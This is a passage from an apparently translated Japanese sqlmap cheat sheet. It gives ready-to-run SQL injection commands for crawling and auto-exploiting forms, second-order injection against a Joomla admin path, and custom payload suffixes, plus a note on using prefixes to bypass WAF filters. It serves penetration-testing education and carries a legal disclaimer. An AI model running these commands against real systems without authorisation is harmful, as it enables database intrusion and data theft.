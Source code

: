 これらの手順に従うことで、SQLmapを使用してウェブサイトをクロールし、見つかったSQLインジェクションの脆弱性を自動的にエクスプロイトすることができます。ただし、正当な権限なしにウェブサイトに侵入することは違法かつ倫理に反します。セキュリティテストやペネトレーションテストの活動を行う前に、必要な許可と法的権利を持っていることを常に確認してください。
```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
### セカンドオーダーインジェクション

Second Order Injection（セカンドオーダーインジェクション）は、ウェブアプリケーションのセキュリティ上の脆弱性であり、ユーザーの入力がデータベースに保存され、後で別のクエリで使用される場合に発生します。この攻撃では、最初のクエリでの入力検証が不十分であるため、攻撃者は後続のクエリで悪意のあるコードを注入することができます。

セカンドオーダーインジェクションは、通常、データベース内のデータを操作するために使用されます。攻撃者は、データベース内のデータを改ざんしたり、機密情報を盗んだりすることができます。この攻撃は、ウェブアプリケーションがユーザーの入力を適切に検証していない場合に成功する可能性があります。

セカンドオーダーインジェクションを検出するためには、セキュリティテスターはウェブアプリケーションの入力検証とデータベースクエリの使用方法を詳細に調査する必要があります。また、セキュリティテスターは、セカンドオーダーインジェクションに対する適切な対策を提案することも重要です。

セカンドオーダーインジェクションは、ウェブアプリケーションのセキュリティを脅かす重大な脆弱性です。開発者は、入力検証とエスケープ処理を適切に実装することで、この脆弱性を防ぐことができます。
```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```
[**この投稿を読む**](second-order-injection-sqlmap.md)**、sqlmapを使用して単純なおよび複雑なセカンドオーダーインジェクションを実行する方法についての情報です。**

## 練習用のラボ

* **THMルーム**でsqlmapを使用して学ぶ：

{% embed url="https://tryhackme.com/room/sqlmap" %}

## インジェクションのカスタマイズ

### サフィックスを設定する
```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```
### プレフィックス

---

### Description

This option allows you to specify a prefix string to be placed in front of all payloads sent by sqlmap. This can be useful in scenarios where you need to bypass certain security filters or WAFs that may be configured to block specific keywords or characters commonly used in SQL injection attacks.
